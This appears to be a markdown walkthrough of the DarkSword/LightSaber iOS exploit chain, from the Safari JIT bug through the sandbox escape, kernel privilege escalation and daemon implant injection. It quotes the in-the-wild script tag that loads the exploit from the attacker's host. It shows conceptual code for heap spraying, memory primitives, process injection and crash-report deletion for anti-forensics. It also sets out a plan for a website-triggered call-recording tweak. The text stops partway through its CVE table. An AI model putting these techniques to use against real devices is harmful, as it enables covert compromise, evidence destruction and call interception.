




# DarkSword / LightSaber — Complete Exploit Chain Walkthrough

> **Context:** You have been tasked with analyzing the DarkSword exploit chain, understanding how it achieves kernel code execution and local privilege escalation on iOS 18.4–18.6.2, and ultimately leveraging this knowledge to build a Call Recording tweak triggered from a locally hosted website. This document is your comprehensive reference.

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Threat Intelligence Context](#2-threat-intelligence-context)
3. [Architecture Overview](#3-architecture-overview)
4. [Stage 0 — Delivery & Loader](#4-stage-0--delivery--loader)
5. [Stage 1 — WebContent RCE (JIT Exploitation)](#5-stage-1--webcontent-rce-jit-exploitation)
6. [Stage 2 — TPRO & PAC Bypass](#6-stage-2--tpro--pac-bypass)
7. [Stage 3 — Sandbox Escape via GPU Process (ANGLE OOB Write)](#7-stage-3--sandbox-escape-via-gpu-process-angle-oob-write)
8. [Stage 4 — Kernel Vulnerability: Copy-On-Write via AppleM2ScalerCSCDriver](#8-stage-4--kernel-vulnerability-copy-on-write-via-applem2scalercscdriver)
9. [Stage 5 — Process Injection into mediaplaybackd](#9-stage-5--process-injection-into-mediaplaybackd)
10. [Stage 6 — Kernel Privilege Escalation (pe_main.js)](#10-stage-6--kernel-privilege-escalation-pe_mainjs)
11. [Stage 7 — In-Memory Implant Injection](#11-stage-7--in-memory-implant-injection)
12. [The Native Bridge — How Tweaks Work](#12-the-native-bridge--how-tweaks-work)
13. [Existing Tweak Analysis: powercuff_light.js](#13-existing-tweak-analysis-powercuff_lightjs)
14. [Existing Tweak Analysis: sbcustomizer_light.js](#14-existing-tweak-analysis-sbcustomizer_lightjs)
15. [CVE ↔ Stage Mapping](#15-cve--stage-mapping)
16. [Call Recording Tweak — Design Roadmap](#16-call-recording-tweak--design-roadmap)
17. [Debugging & Operational Notes](#17-debugging--operational-notes)
18. [Glossary](#18-glossary)

---

## 1. Executive Summary

**DarkSword** is a full-chain, 1-click iOS exploit kit discovered in the wild targeting Ukrainian users via compromised legitimate websites (watering hole attack). It chains **6 distinct vulnerabilities** across Safari WebContent, the GPU process, the XNU kernel, and userland daemons to achieve:

1. **Remote Code Execution** in the Safari renderer (WebContent process)
2. **Sandbox Escape** into the GPU process, then into `mediaplaybackd`
3. **Kernel Privilege Escalation** with arbitrary kernel R/W
4. **In-memory JavaScript implant injection** into system daemons (`SpringBoard`, `securityd`, `wifid`, `configd`, `UserEventAgent`)

**LightSaber** is the open-source, malware-stripped implementation of this chain. It retains the full exploit pipeline but replaces the data exfiltration implants with benign "tweaks" — runtime modifications to system behavior (font changes, grid layouts, thermal management, etc.).

> [!IMPORTANT]
> The entire chain is **JavaScript-only**. There are no Mach-O binaries, no dylib injection, no traditional persistence. Payloads execute as JavaScript loaded into JavaScriptCore within target daemons. Changes are volatile — they survive only until the daemon restarts or the device reboots.

---

## 2. Threat Intelligence Context

| Attribute | Detail |
|---|---|
| **Name** | DarkSword (named from `const TAG = "DarkSword-WIFI-DUMP"` in implant code) |
| **Discovery** | iVerify + Lookout + Google Threat Intelligence Group (GTIG), March 2026 |
| **Delivery** | Watering hole via compromised Ukrainian websites (`novosti[.]dn[.]ua`, `7aac[.]gov[.]ua`) |
| **Infrastructure** | Exploit server: `static[.]cdncounter[.]net` (Estonia); Exfiltration: `sqwas[.]shapelie[.]com` |
| **Targets** | arm64e iPhones (A12–A18 Pro), iOS 18.4–18.6.2 (config data for 18.7 also observed by Google) |
| **Attribution** | Russian-linked threat actor; Russian comments in early-stage scripts, English in exploit code |
| **Impact** | ~14.2% of all iPhone users (~221M devices) at time of discovery |
| **Patches** | All CVEs patched across iOS 26.1, 26.2, 26.3, and backported to 18.7.x |
| **Open Source** | LightSaber by [@zeroxjf](https://github.com/zeroxjf/lightsaber) — malware stripped, tweaks added |

---

## 3. Architecture Overview



### File ↔ Stage Mapping

| File | Stage | Purpose |
|------|-------|---------|
| [index.html](file:///Users/aaravgupta/Pentesting/lightsaber/index.html) | Delivery | UI, tweak selection, iframe launcher |
| [frame.html](file:///Users/aaravgupta/Pentesting/lightsaber/frame.html) | Delivery | Invisible iframe that loads the exploit |
| [rce_loader.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_loader.js) | Bootstrap | Version detection, worker initialization, parameter parsing |
| [rce_worker.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_worker.js) | RCE | JIT bug trigger, type confusion, memory R/W primitives (iOS 18.4-18.5) |
| [rce_worker_18.6.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_worker_18.6.js) | RCE | Alternative JIT exploit for iOS 18.6-18.6.2 (UAF + type confusion) |
| [rce_module.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_module.js) | RCE | Per-device shared cache offsets (A12-A18), interposing tuples |
| [sbx0_main_18.4.js](file:///Users/aaravgupta/Pentesting/lightsaber/sbx0_main_18.4.js) | Sandbox Escape | ANGLE OOB write, GPU process exploitation |
| [sbx1_main.js](file:///Users/aaravgupta/Pentesting/lightsaber/sbx1_main.js) | Kernel + Injection | COW exploit, kernel R/W, mediaplaybackd injection, MIG filter bypass |
| [pe_main.js](file:///Users/aaravgupta/Pentesting/lightsaber/pe_main.js) | Privilege Escalation | Final kernel LPE, JSC injection into arbitrary system daemons |
| [powercuff_light.js](file:///Users/aaravgupta/Pentesting/lightsaber/powercuff_light.js) | Tweak Payload | Thermal throttle override via `thermalmonitord` |
| [sbcustomizer_light.js](file:///Users/aaravgupta/Pentesting/lightsaber/sbcustomizer_light.js) | Tweak Payload | SpringBoard UI modifications (grid, dock, statusbar) |

---

## 4. Stage 0 — Delivery & Loader

### How the User Reaches the Exploit

In the wild (DarkSword), the chain was delivered via a compromised Ukrainian government website embedding a `<script>` tag:

```html
<script async src="https://static[.]cdncounter[.]net/widgets.js?uhfiu27fajf2948fjfefaa42"></script>
```

This created an invisible iframe → multiple redirections → ultimately loaded `rce_loader.js`.

### In LightSaber (Your Local Setup)

The flow is simpler but architecturally identical:

1. **`index.html`** — The main UI page. The user selects tweaks and clicks **"Run LightSaber"**.
2. The button creates a hidden `<iframe>` pointing to **`frame.html`** with query parameters encoding the selected tweaks.
3. **`frame.html`** contains a single `<script src="rce_loader.js">` tag.

### rce_loader.js — The Bootstrap

[rce_loader.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_loader.js) (462 lines) is the orchestration brain:

```
┌────────────────────────────────────────────────────────┐
│ rce_loader.js                                          │
│                                                        │
│ 1. Parse URL ?params for tweak selection               │
│ 2. Detect iOS version via navigator.userAgent          │
│ 3. Branch: 18.4-18.5 → rce_worker.js + rce_module.js  │
│            18.6-18.6.2 → rce_worker_18.6.js            │
│ 4. Create Web Worker with exploit code                 │
│ 5. Establish MessageChannel for bidirectional comms    │
│ 6. Handle worker → parent messages:                    │
│    - "log"     → forward to index.html                 │
│    - "status"  → update UI state                       │
│    - "loadSBX" → dynamically fetch sbx0/sbx1/pe_main   │
│ 7. Feed fetched stage scripts back to worker           │
└────────────────────────────────────────────────────────┘
```

> [!NOTE]
> The loader uses `postMessage()` over a `MessageChannel` to communicate with the worker. The worker can't `fetch()` directly (sandbox restrictions), so the loader acts as a fetch proxy.

Key code pattern in `rce_loader.js`:

```javascript
// Worker requests the next stage
worker.onmessage = (e) => {
    if (e.data.type === "loadSBX") {
        fetch(e.data.url)
            .then(r => r.text())
            .then(code => worker.postMessage({ type: "sbxCode", code }));
    }
};
```

---

## 5. Stage 1 — WebContent RCE (JIT Exploitation)

This is the most critical stage — it achieves **arbitrary code execution inside Safari's renderer process** by exploiting bugs in JavaScriptCore's JIT compiler.

### Two Exploit Variants

| iOS Version | CVE | Bug Type | File |
|---|---|---|---|
| 18.4–18.5 | CVE-2025-31277 | JIT RegExp match → type confusion | [rce_worker.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_worker.js) |
| 18.6–18.6.2 | CVE-2025-43529 | JIT StoreBarrierInsertionPhase → UAF → type confusion | [rce_worker_18.6.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_worker_18.6.js) |

### The Exploitation Technique (rce_worker.js — iOS 18.4)

The exploit follows the classic JSC exploitation pattern but with modern twists:

#### Step 1: Trigger the JIT Bug

The JIT compiler (DFG/FTL) makes incorrect assumptions about object types during RegExp operations. The exploit constructs a carefully crafted RegExp match that causes the JIT to:
1. Compile optimized code assuming a specific object type
2. The runtime object is actually a different type
3. This creates a **type confusion** — the JIT reads/writes fields at the wrong offsets

```javascript
// Simplified conceptual flow (actual code is obfuscated by variable naming)
the_oob_object.splice(30, 0, 1, 2, 3, 4, 5, 6, 7);
// "now we should have a victim with a nice length" — original comment
```

#### Step 2: Build Memory Primitives

From the type confusion, the exploit constructs four fundamental primitives:

```
┌─────────────────────────────────────────────────────────────────┐
│ PRIMITIVE       │ WHAT IT DOES                                  │
│─────────────────│─────────────────────────────────────────────── │
│ addrof(obj)     │ Leak the memory address of any JS object      │
│ fakeobj(addr)   │ Create a JS object pointing to arbitrary addr │
│ read64(addr)    │ Read 8 bytes from any memory address          │
│ write64(addr,v) │ Write 8 bytes to any memory address           │
└─────────────────────────────────────────────────────────────────┘
```

**How `addrof` works conceptually:**
1. Place the target object into a known location in the confused array
2. Read the raw bytes at that index (the JIT thinks it's reading a double, but it's actually reading the object pointer)
3. The leaked value is the object's memory address

**How `fakeobj` works conceptually:**
1. Write a chosen address into the array as raw bytes
2. The JIT interprets those bytes as an object pointer
3. You now have a "fake" JS object pointing to wherever you want

**How `read64`/`write64` work:**
1. Create a `fakeobj` pointing to a crafted butterfly (JSC's backing store for object properties)
2. The butterfly's data pointer is set to the target address
3. Reading/writing "properties" of this fake object actually reads/writes arbitrary memory

#### Step 3: Heap Shaping

Before triggering the bug, the exploit carefully arranges the JavaScript heap:

```javascript
// Spray arrays of specific sizes to create predictable memory layout
let spray = [];
for (let i = 0; i < 0x100; i++) {
    spray.push(new Float64Array(0x40));
}
// The goal: place our "victim" object adjacent to the confused object
// so that the type confusion gives us control over the victim's length/buffer
```

> [!TIP]
> **Why heap shaping matters:** JSC allocates objects in size-class-based buckets. By spraying objects of the right size, the exploit ensures that when the JIT bug corrupts memory, it corrupts exactly the right object — giving precise control rather than random crashes.

#### Step 4: Shared Cache Resolution

[rce_module.js](file:///Users/aaravgupta/Pentesting/lightsaber/rce_module.js) contains offset tables for every supported iPhone model and iOS version. These offsets point to functions and structures within the **dyld shared cache** — Apple's pre-linked framework blob that's mapped into every process.

```javascript
// Example offset structure (simplified)
offsets = {
    "iPhone15,2_18.4": {
        __dyld_dlopen: 0x1a234567n,
        __dyld_dlsym:  0x1a234890n,
        objc_msgSend:  0x1b345678n,
        // ... hundreds more offsets
    }
};
```

The exploit resolves these offsets to find functions like `dlopen`, `dlsym`, `objc_msgSend`, `mach_task_self`, etc. — the building blocks for the next stages.

---

## 6. Stage 2 — TPRO & PAC Bypass

> [!CAUTION]
> This is the most novel technique in the entire chain and was assigned **CVE-2026-20700**. It wasn't patched until iOS 26.3 — meaning it survived for nearly a year after discovery.

### What Are TPRO and PAC?

| Mitigation | Purpose |
|---|---|
| **TPRO (Trusted Path Read-Only)** | Certain memory pages (JIT code, critical data structures) are mapped as read-only even to the kernel on the local core. Prevents simple R/W→code-exec pivots. |
| **PAC (Pointer Authentication Codes)** | Every code pointer (function pointers, return addresses) has a cryptographic signature in its upper bits. If the signature doesn't match when the pointer is used, the CPU triggers a fault. Prevents simple pointer overwrites. |

### The Bypass: Abusing `dyld` Stack-Resident Structures

The breakthrough insight: **dyld's interposing tuples live in writable stack memory**.

When `dyld` sets up interposing (function hooking at load time), it stores the interpose entries on the stack — which is **not** TPRO-protected and the pointers there are **not** PAC-signed in certain contexts.

The exploit:
1. Uses `read64` to scan the WebContent process's stack for `dyld`'s interpose structures
2. Overwrites a function pointer in the interpose table (e.g., replaces `malloc` with a gadget address)
3. When any code in the process calls `malloc`, it instead jumps to the attacker's chosen gadget
4. Because the interpose mechanism doesn't validate PAC on these particular pointers, the bypass is complete

```
┌──────────────────────────────────────────────────────────────┐
│ Normal Flow:                                                  │
│   call malloc → PAC check → real malloc                       │
│                                                               │
│ After Exploit:                                                │
│   call malloc → interpose lookup (no PAC) → attacker gadget   │
│                                                               │
│ The attacker controls the dyld interpose table on the stack   │
│ because TPRO doesn't protect stack memory.                    │
└──────────────────────────────────────────────────────────────┘
```

This gives **arbitrary function call capability** within the WebContent process — the prerequisite for Stage 3.

### Thread State Manipulation

The exploit also manipulates thread register state to chain gadgets:

```javascript
// Conceptual: Set up registers for a gadget chain
// x0 = argument 1
// x1 = argument 2  
// pc = gadget address (not PAC-signed due to the interpose bypass)
p.write64(thread_state + 0x00, arg0);
p.write64(thread_state + 0x08, arg1);
p.write64(thread_state + 0x100, gadget_addr); // PC
```

---

## 7. Stage 3 — Sandbox Escape via GPU Process (ANGLE OOB Write)

**CVE-2025-14174** — ANGLE Out-of-Bounds Write

### Why Target the GPU Process?

Safari's WebContent process runs in a **tight sandbox** — it can't access the filesystem, can't talk to most system services, and can't open network connections. But it has IPC channels to the **GPU process** (`com.apple.WebKit.GPU`), which handles all rendering operations via WebGL/Metal.

The GPU process has:
- A wider sandbox (it needs access to GPU hardware)
- Access to IOKit drivers (critical for Stage 4)
- The **same** dyld interpose vulnerability (CVE-2026-20700 is reusable!)

### The ANGLE Bug

ANGLE is Google's OpenGL ES to Metal/Vulkan translation layer, used by WebKit's GPU process. The bug is an **out-of-bounds write** in ANGLE's buffer management:

```
WebContent Process                    GPU Process
┌──────────────┐                     ┌──────────────┐
│ WebGL call   │──── IPC ───────────→│ ANGLE shader │
│ with crafted │                     │ compilation  │
│ parameters   │                     │ triggers OOB │
│              │                     │ write        │
└──────────────┘                     └──────┬───────┘
                                           │
                                     ┌─────▼────────┐
                                     │ Corrupt GPU  │
                                     │ process heap │
                                     │ → R/W prims  │
                                     │ → PAC bypass │
                                     │ (same dyld   │
                                     │  technique)  │
                                     └──────────────┘
```

### What sbx0_main_18.4.js Does

[sbx0_main_18.4.js](file:///Users/aaravgupta/Pentesting/lightsaber/sbx0_main_18.4.js) is massive (427KB) because it contains:

1. **Per-device offset tables** — GPU process addresses for every iPhone model/iOS version combination:
   ```javascript
   // Example: offsets for iPhone 15 Pro on 18.4
   const OFFSETS_IPHONE15_3_18_4 = {
       angle_buffer_base:     0x1234567890abcdefn,
       gpu_process_task_port: 0xfedcba0987654321n,
       // ... many more
   };
   ```

2. **WebGL shader payloads** — Carefully crafted GLSL shaders that trigger the ANGLE OOB write

3. **Mach port manipulation** — After gaining GPU process primitives, the exploit:
   - Finds the GPU process's `task_self` mach port
   - Uses `mach_vm_read_overwrite` / `mach_vm_write` to read/write GPU process memory
   - Locates the IOKit connection to `AppleM2ScalerCSCDriver`

> [!WARNING]
> The GPU process exploitation is the **most fragile** part of the chain. The original website's video content affected heap layout. iVerify noted: "The GPU process's handling of the original website content, such as video processing, was found to influence the exploitation reliability." This is why LightSaber hosts the exploit locally for better control.

### Recovery Mechanism

When the GPU exploit fails, the code deliberately crashes WebKit's GPU process and retries:
```
Exception Type:    EXC_GUARD (SIGKILL)
Exception Subtype: GUARD_TYPE_VIRT_MEMORY
Exception Message: offset=0x0000000fc0000000, flavor=0x00000001 (DEALLOC_GAP)
```

The exploit forces closure of the CoreIPC connection to the GPU process so it can restart with a fresh state. This is visible in device logs as repeated `GPUProcessProxy::childConnectionDidBecomeUnresponsive` messages.

---

## 8. Stage 4 — Kernel Vulnerability: Copy-On-Write via AppleM2ScalerCSCDriver

**CVE-2025-43510** — Copy-On-Write (COW) Bug in IOKit Driver

### The Kernel Entry Point

From the GPU process, the exploit now has access to IOKit — Apple's device driver framework. It targets `AppleM2ScalerCSCDriver`, a kernel extension that handles image scaling and color space conversion for the display pipeline.

### The COW Bug

**Selector 1** in the driver's external method table has a Copy-On-Write implementation flaw:

```
┌─────────────────────────────────────────────────────────────────┐
│ Normal COW:                                                      │
│   1. Kernel maps a page shared between processes               │
│   2. Process writes to the page                                │
│   3. Kernel creates a private copy for the writer              │
│   4. Original page preserved for other readers                 │
│                                                                │
│ Bug: The driver doesn't properly handle the COW page fault     │
│   1. Attacker maps a page and shares it with the driver        │
│   2. Attacker triggers selector 1                              │
│   3. Driver writes to the shared mapping WITHOUT triggering    │
│      a proper COW fault                                        │
│   4. Result: attacker sees the kernel's write in their mapping │
│   5. This gives a window to leak kernel pointers and establish │
│      a read/write channel                                      │
└─────────────────────────────────────────────────────────────────┘
```

### From Kernel Bug to Kernel R/W

[sbx1_main.js](file:///Users/aaravgupta/Pentesting/lightsaber/sbx1_main.js) (323KB) handles this transition:

1. **Trigger the COW bug** via IOKit external method call to selector 1
2. **Leak kernel slide** — find the KASLR (Kernel Address Space Layout Randomization) slide by reading leaked kernel pointers
3. **Establish kernel R/W** — `early_kread64()` and `early_kwrite64()` primitives:

```javascript
// From sbx1_main.js — kernel memory hexdump utility
function kdump(where, size, msg = "") {
    LOG(`[+] ----------- ${msg} ----------`);
    for (let i = 0n; i < size; i += 0x10n) {
        LOG(`[+] [${i.hex()}] ${(where + i).hex()}:\t` +
            `${early_kread64(where + i).hex()} ${early_kread64(where + i + 8n).hex()}`);
    }
}
```

4. **Find `mediaplaybackd`** — scan the kernel's `allproc` list (linked list of all processes) to find `mediaplaybackd`'s `task_t` structure
5. **Get `mediaplaybackd`'s task port** — use the kernel R/W primitives to read the task port name from the kernel task structure

---

## 9. Stage 5 — Process Injection into mediaplaybackd

### Why mediaplaybackd?

`mediaplaybackd` is an ideal injection target because:
- It runs **outside the sandbox** (it manages media playback across the system)
- It has **XPC interfaces** that can be reached from the GPU process
- It's a long-lived daemon (won't randomly restart)
- It has access to **IOKit drivers** needed for the final privilege escalation

### The Injection Technique

This is **not** traditional dylib injection. The chain uses the kernel R/W primitives to:

1. **Allocate memory** in `mediaplaybackd`'s address space (via `mach_vm_allocate` through the leaked task port)
2. **Load JavaScriptCore** into the daemon:
   ```javascript
   // Conceptual flow inside sbx1_main.js
   let jscHandle = nativeCall(target_task, "dlopen", 
       "/System/Library/Frameworks/JavaScriptCore.framework/JavaScriptCore", 
       RTLD_NOW);
   ```
3. **Create a JSContext** in the daemon's process
4. **Inject JavaScript code** into the JSContext
5. **Execute the injected code** — this is `pe_main.js`

### MIG Filter Bypass

On iOS ≥ 18.4, Apple added **Autobox** restrictions that filter which Mach messages (MIG calls) a process can send. The exploit implements a MIG filter bypass:

```javascript
// From pe_main.js start() function
if (ver.major == 24 && ver.minor >= 4) {
    mutexPtr = BigInt(Native.callSymbol("malloc", 0x100));
    Native.callSymbol("pthread_mutex_init", mutexPtr, null);
    migFilterBypass = new MigFilterBypass(mutexPtr);
}
```

This allows `mediaplaybackd` to send Mach messages that would normally be blocked by the MIG filter policy.

---

## 10. Stage 6 — Kernel Privilege Escalation (pe_main.js)

**CVE-2025-43520** — Kernel Privilege Escalation

[pe_main.js](file:///Users/aaravgupta/Pentesting/lightsaber/pe_main.js) is the largest file in the chain (831KB, minified/webpacked). It runs inside `mediaplaybackd` and performs the final privilege escalation.

### What It Does



### The Privilege Escalation Chain

1. **`Driver.init()`** — Opens a connection to `AppleM2ScalerCSCDriver` from within `mediaplaybackd`
2. **`Chain.init(driver, mutexPtr)`** — Initializes the kernel exploitation chain using the driver connection
3. **`Chain.runPE()`** — Executes the actual privilege escalation:
   - Exploits CVE-2025-43520 in the kernel
   - Achieves stable, arbitrary kernel memory read/write
   - Modifies the process's credential structure (`ucred`) to escalate privileges
4. **`TaskRop.init()`** — Sets up ROP (Return-Oriented Programming) gadgets for calling arbitrary functions in remote processes
5. **`RemoteCall("launchd")`** — Gets a task port to `launchd` (PID 1), the root of all processes
6. **`Sandbox.createTokens()`** — Creates sandbox extension tokens that grant filesystem access
7. **`Sandbox.deleteCrashReports()`** — Removes crash reports to reduce forensic evidence

### Crash Report Cleanup

```javascript
static deleteCrashReports() {
    this.getTokenForPath(
        "/private/var/containers/Shared/SystemGroup/" +
        "systemgroup.com.apple.osanalytics/DiagnosticReports/", true);
    FileUtils.deleteDir(
        "/private/var/containers/Shared/SystemGroup/" +
        "systemgroup.com.apple.osanalytics/DiagnosticReports/", true);
}
```

> [!NOTE]
> The original DarkSword missed deleting crashes from `/private/var/mobile/Library/Logs/CrashReporter` — an OPSEC failure noted by iVerify that aided forensic detection.

---

## 11. Stage 7 — In-Memory Implant Injection

After privilege escalation, `pe_main.js` injects JavaScript "agents" into multiple system daemons using the `InjectJS` class:

### DarkSword (Original Malware) Injection Targets

| Target Process | Payload | Purpose |
|---|---|---|
| `SpringBoard` | `loader.js` | Main agent, coordinates data collection |
| `configd` | `keychain_copier.js` | Copies keychain database to `/tmp` |
| `wifid` | `wifi_password_dump.js` | Extracts saved WiFi passwords |
| `securityd` | `wifi_password_securityd.js` | Fallback WiFi password extraction |
| `UserEventAgent` | `icloud_dumper.js` | Dumps iCloud Drive files |
| `SpringBoard` (again) | `file_downloader.js` | Exfiltrates all collected data to C2 server |

### LightSaber (Our Clean Version) Injection Targets

LightSaber replaces the malware payloads with benign tweaks:

| Target Process | Payload | Purpose |
|---|---|---|
| `thermalmonitord` | `powercuff_light.js` | Override thermal throttle levels |
| `SpringBoard` | `sbcustomizer_light.js` | Modify home screen grid, dock, status bar |
| `mediaplaybackd` | (built-in tweaks) | Font overwrite, file manager, MobileGestalt |

### The InjectJS Flow

```javascript
// From pe_main.js — how a payload is injected
let agentLoader = new InjectJS(targetProcess, payloadCode, migFilterBypass);
if (agentLoader.inject()) {
    let agentPid = agentLoader.task.pid();
    Sandbox.applyTokensForRemoteTask(agentLoader.task);  // Grant filesystem access
    Sandbox.adjustMemoryPressure(targetProcess);          // Prevent jetsam kill
    agentLoader.destroy();                                 // Clean up injection artifacts
}
```

Each injection:
1. Finds the target process in the kernel's process list
2. Gets a task port to the target
3. Allocates memory in the target process
4. Loads JavaScriptCore into the target (if not already loaded)
5. Creates a JSContext and evaluates the payload code
6. The payload code now runs with the target daemon's entitlements and sandbox profile

---

## 12. The Native Bridge — How Tweaks Work

This is the most important section for understanding how to **build your own tweak**. Every payload (both malware and tweaks) communicates with the operating system through a **Native Bridge** — a set of JavaScript functions that wrap native C/Objective-C calls.

### Core Bridge Functions

```javascript
// 1. Call any C symbol by name
Native.callSymbol("function_name", arg0, arg1, ...);
// Example: Native.callSymbol("malloc", 0x100);

// 2. Call objc_msgSend (invoke Objective-C methods)
Native.callSymbol("objc_msgSend", object, selector, arg0, arg1, ...);

// 3. Load a framework dynamically
let handle = Native.callSymbol("dlopen", "/path/to/Framework", RTLD_NOW);

// 4. Find a symbol in a loaded framework
let funcAddr = Native.callSymbol("dlsym", handle, "function_name");

// 5. Memory operations
Native.callSymbol("memcpy", dest, src, size);
Native.callSymbol("mmap", addr, size, prot, flags, fd, offset);
```

### How Native.callSymbol Works Internally

```
┌─────────────────────────────────────────────────────────────┐
│ JavaScript Layer (your tweak code)                          │
│   Native.callSymbol("objc_msgSend", obj, sel, arg0)         │
│                     │                                       │
│                     ▼                                       │
│ Bridge Buffer (pre-allocated shared memory region)          │
│   ┌──────────────────────────────────────────────────┐     │
│   │ [0x00] function pointer to resolve               │     │
│   │ [0x08] arg0 (object pointer)                     │     │
│   │ [0x10] arg1 (selector)                           │     │
│   │ [0x18] arg2 (first real argument)                │     │
│   │ [0x20] return value (filled after call)          │     │
│   └──────────────────────────────────────────────────┘     │
│                     │                                       │
│                     ▼                                       │
│ Native Execution (runs in the daemon's process context)     │
│   1. Read function pointer from buffer                     │
│   2. Read arguments from buffer                            │
│   3. Execute: result = func(arg0, arg1, arg2)              │
│   4. Write result back to buffer                           │
│   5. Return control to JavaScript                          │
│                     │                                       │
│                     ▼                                       │
│ JavaScript receives the return value                        │
└─────────────────────────────────────────────────────────────┘
```

### Objective-C Runtime Interaction Pattern

To interact with iOS frameworks, tweaks typically follow this pattern:

```javascript
// 1. Get a class reference
let cls = Native.callSymbol("objc_getClass", "NSBundle");

// 2. Get a selector
let sel = Native.callSymbol("sel_registerName", "mainBundle");

// 3. Call the method
let bundle = Native.callSymbol("objc_msgSend", cls, sel);

// 4. Chain more calls
let pathSel = Native.callSymbol("sel_registerName", "bundlePath");
let path = Native.callSymbol("objc_msgSend", bundle, pathSel);
```

---

## 13. Existing Tweak Analysis: powercuff_light.js

[powercuff_light.js](file:///Users/aaravgupta/Pentesting/lightsaber/powercuff_light.js) — **263 lines**, injected into `thermalmonitord`.

### What It Does

Overrides the thermal throttle level of the device, allowing it to run at maximum performance even when hot.

### Key Patterns to Study

```javascript
// 1. Get the shared thermal monitor instance
let thermalClass = Native.callSymbol("objc_getClass", "TMThermalMonitor");
let sharedSel = Native.callSymbol("sel_registerName", "sharedMonitor");
let monitor = Native.callSymbol("objc_msgSend", thermalClass, sharedSel);

// 2. Read a property (getter)
let levelSel = Native.callSymbol("sel_registerName", "currentThermalLevel");
let currentLevel = Native.callSymbol("objc_msgSend", monitor, levelSel);

// 3. Write a property (setter)  
let setLevelSel = Native.callSymbol("sel_registerName", "setCurrentThermalLevel:");
Native.callSymbol("objc_msgSend", monitor, setLevelSel, 0); // 0 = no throttle
```

### Lessons for Your Call Recording Tweak

1. **Find the right daemon** — `thermalmonitord` manages thermal. For audio, you'll target `audiomxd`, `mediaserverd`, or `mediaplaybackd`.
2. **Find the right class** — Use `objc_getClass` to get the class you need to interact with.
3. **Find the right selectors** — Study the framework headers. Key methods for audio:
   - `AVAudioRecorder` (high-level)
   - `AudioQueue` services (mid-level)
   - `AudioUnit` (low-level)
4. **Interact via the Native Bridge** — All calls go through `Native.callSymbol`.

---

## 14. Existing Tweak Analysis: sbcustomizer_light.js

[sbcustomizer_light.js](file:///Users/aaravgupta/Pentesting/lightsaber/sbcustomizer_light.js) — **~800+ lines**, injected into `SpringBoard`.

### What It Does

Modifies the entire SpringBoard UI at runtime:
- Changes home screen icon grid dimensions
- Adds/removes dock icons
- Patches status bar elements
- Modifies icon labels and badge behavior

### Key Patterns: Accessing Instance Variables (ivars)

This tweak demonstrates a more advanced pattern — directly reading and writing Objective-C object instance variables:

```javascript
// 1. Get the class and its ivar layout
let iconManagerClass = Native.callSymbol("objc_getClass", "SBHIconManager");
let ivar = Native.callSymbol("class_getInstanceVariable", iconManagerClass, "_gridSize");
let offset = Native.callSymbol("ivar_getOffset", ivar);

// 2. Get the shared instance
let sharedSel = Native.callSymbol("sel_registerName", "sharedInstance");
let manager = Native.callSymbol("objc_msgSend", iconManagerClass, sharedSel);

// 3. Read the ivar directly (bypass getters)
let currentGridSize = p.read64(manager + BigInt(offset));

// 4. Write the ivar directly (bypass setters/validation)
p.write64(manager + BigInt(offset), newGridSizeValue);
```

> [!TIP]
> This ivar manipulation pattern is extremely powerful — it lets you change internal object state without going through setter methods that might have validation or side effects. You'll likely need this for hooking audio routing.

---

## 15. CVE ↔ Stage Mapping

| CVE | Stage | Component | Bug Type | Patched In |
|-----|-------|-----------|----------|------------|
| CVE-2025-31277 | RCE (18.4) | WebKit / JSC | JIT RegExp type confusion | iOS 18.6 |
